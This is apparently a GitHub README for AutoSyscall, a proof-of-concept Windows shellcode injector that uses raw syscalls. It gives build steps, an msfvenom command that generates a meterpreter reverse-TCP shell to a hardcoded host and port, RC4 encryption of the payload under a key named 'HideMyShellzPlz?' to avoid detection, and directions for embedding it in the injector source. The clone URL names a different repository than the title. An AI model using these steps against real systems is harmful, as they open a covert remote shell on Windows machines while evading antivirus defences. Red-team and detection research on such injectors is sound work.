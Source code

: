 # AutoSyscall

![Screenshot](https://raw.githubusercontent.com/blitztide/AutoSyscall/master/Images/AutoSyscall.png)

This library builds and makes a shellcode injector for all versions of Windows using raw syscalls.

This code is a PoC and has only been tested windows 10 x64 version 1909, this is because of the syscall numbers changing between versions, the values can be found [here](https://j00ru.vexillium.org/syscalls/nt/64/).

## Install & Build

```
git clone https://github.com/bats3c/DefensiveInjector
cd DefensiveInjector
python generate.py
make _XP_SP2
make injector
```
The _XP_SP2 value is the define string for the shellcode.asm file, this will target specific versions of windows.

## Using different shellcode

- ##### Generate your shellcode either with msfvenom or something else
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin`

- ##### Encrypt the shellcode
    Keeping in mind that if you change it here you will need to update the key on line 132 in `main.c`
    `cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin`

- ##### Format the shellcode
    Run `xxd -i encmeter.bin` then replace everything between line 10-60 with the output

## Dependencies

```
sudo apt install mingw-w64 nasm python
```
